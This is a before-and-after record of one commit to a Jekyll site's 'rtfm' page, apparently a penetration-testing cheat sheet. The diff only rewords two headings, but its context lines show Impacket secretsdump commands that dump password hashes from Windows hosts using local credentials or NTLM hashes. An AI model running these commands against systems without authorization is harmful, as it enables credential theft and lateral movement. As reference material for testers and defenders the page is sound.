

Before and after one commit to br33z3/br33z3.github.io, a Jekyll site: the page built from _pages/rtfm.md, in a window 1280 px wide and 1354 px high. Shown: the whole window at 96% size, without its empty margins (63-1023 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update rtfm.md

```diff
--- a/_pages/rtfm.md
+++ b/_pages/rtfm.md
@@ -39,10 +39,10 @@ date: 2022-12-10
 
     python3 secretsdump.py <Domain>/<Domain Username>@<IP> -hashes <NTLM Hash> (Enter with NTLM Hash)
 
-### Impacket secretsdump - DUMP Local User Hashes via Domain Local User Creds
+### Impacket secretsdump - DUMP Local User Hashes via Local User Creds
 
     python3 secretsdump.py <Computer_Hostname>/<Local Username>:<Password>@<IP> (Enter with Local Creds)
 
-### Impacket secretsdump - DUMP Local User Hashes via Domain Local User Hash
+### Impacket secretsdump - DUMP Local User Hashes via Local User Hash
 
     python3 secretsdump.py <Computer_Hostname>/<Local Username>@<IP> -hashes <NTLM Hash> (Enter with NTLM Hash)
```
